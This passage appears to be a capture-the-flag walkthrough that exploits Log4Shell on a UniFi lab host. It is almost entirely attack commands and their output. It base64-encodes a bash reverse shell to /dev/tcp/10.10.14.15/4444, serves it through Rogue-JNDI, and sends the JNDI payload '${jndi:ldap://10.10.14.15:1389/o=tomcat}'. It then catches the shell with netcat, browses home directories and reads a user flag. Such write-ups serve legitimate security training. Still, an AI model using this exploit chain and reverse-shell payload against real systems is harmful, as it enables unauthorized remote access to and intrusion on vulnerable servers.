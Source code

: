 ```console
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ echo 'bash -c bash -i >&/dev/tcp/10.10.14.15/4444 0>&1' | base64 
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUvNDQ0NCAwPiYxCg==
```

And start Rogue-JNDI:

```console
┌──(kali㉿kali)-[~/Downloads/rogue-jndi]
└─$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.15"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.15:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.15:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.15:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.15:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.15:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.15:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.15:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.15:1389/o=reference to artsploit.controllers.RemoteReference
```

And lastly, before execution, we just need to set up netcat to listen to port 4444.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 4444                
listening on [any] 4444 ...
```

Now for the execution.

Payload: `"${jndi:ldap://10.10.14.15:1389/o=tomcat}"`

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 4444                
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.28.168] 58794
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ whoami
unifi
```

We got a shell!

```console
unifi@unified:/usr/lib/unifi$ pwd
/usr/lib/unifi
unifi@unified:/usr$ cd /home
cd /home
unifi@unified:/home$ ls
ls
michael
unifi@unified:/home$ cd michael
cd michael
unifi@unified:/home/michael$ ls
ls
user.txt
unifi@unified:/home/michael$ cat user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```